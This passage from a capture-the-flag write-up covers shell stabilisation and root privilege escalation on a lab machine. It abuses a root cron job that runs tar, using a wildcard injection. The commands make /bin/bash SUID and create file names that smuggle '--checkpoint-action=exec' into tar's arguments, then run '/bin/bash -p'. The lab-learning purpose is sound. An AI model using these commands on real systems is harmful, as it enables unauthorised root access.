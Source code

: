 


Once the shell connection is established, we need to stabilize our shell in order to have a better experience, let's use our [[CYBERSECURITY/Commands/Shell Tricks/STABLE SHELL.md|note]]:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121143025.png)

Nice, now we have a stable shell, let's begin with our privilege escalation



# PRIVILEGE ESCALATION
---

## `/etc/crontab`

If we use `cat /etc/crontab` we find this:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121143321.png)

User `root` is running a script inside of `milesdyson` home called `backup.sh` let's check if we are able to write in it:

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121143414.png)

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121143635.png)

We are able to write in it, so, we need to put the following in order to get a higher privileged shell:

```ad-hint

We need to run this commands inside of `/var/www/html`

1. printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
2. echo "" > "--checkpoint-action=exec=sh shell.sh"
3. echo "" >> --checkpoint=1

The process we followed is a `wildcard injection`, we are taking advantage of the script, which uses tar and we inject a shell that gets executed once the script runs once again.


After a minute, we will be able to execute `/bin/bash -p` and get a root shell:

#### Output
---

![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121144618.png)
![](CYBERSECURITY/IMAGES/Pasted%20image%2020241121144743.png)



```

And that's all for this CTF.

